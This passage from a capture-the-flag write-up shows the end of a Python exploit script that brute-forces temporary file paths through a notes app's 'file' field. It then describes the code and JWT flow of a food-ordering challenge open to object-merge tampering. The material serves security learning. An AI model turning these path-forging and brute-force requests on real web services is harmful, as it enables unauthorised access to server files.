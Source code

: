 ```py

	for i in reversed(range(10)):

		B_ID = s.post(URL + "/notes", data = {
			"title": "alalala",
			"content": "fhui",
			"file": f"/tmp/tmp-{fileid+1}-{timestamp-i}", # LOL
			"fileLoaded": 1
		}).url.removeprefix(f"{URL}/notes/")
		
		print(f"ID OF B: {B_ID}")

		# try and trigger it
		s.get(f"{URL}/notes/{B_ID}")

def main():
	login()
	prepare_exploit()
	exploit()


main()
```

A few days later, I came across [Davwwwx](https://blog.xss.am/2022/08/offzone-express-notes/)'s writeup where instead of brute forcing to iron out the desync, they just forced a restart on the server by not providing a hashcat to the notes page, resetting `FILE_ID` and `tempCounter` back to 0. Very cool :)

---

## Delicious and Point

> Hey, guys! McDonald's has rebrended. But now there is no BigMac. I'm very sad, I'm loving it.

This challenge concerned a web app where you could place orders for food, and the end goal was to order the Big Mac. There was a public API endpoint `/create_order`, where your posted JSON body is written to the stdin of `make_order.js`, which forms your order through the following snippet:

```js
// make_order.js
var order = {};
categories.map( (category) => { order[category] = {} });
data = JSON.parse(data);
Object.keys(data).map( (category) => {
	Object.keys(data[category]).map( (item) => {
		order[category][item] = data[category][item]
	})
});
```

Then, your order is posted *again* to the internal backend server, which ensures that you have each required category and no bad categories in your order, then removes your Big Mac order if it's present. It signs this with a secret key as a JWT and returns to `make_order.js`, which unsigns the JWT with the same key, and effectively your entire order is passed back to the original API endpoint, at which point if your Big Mac order remains, you get the flag.
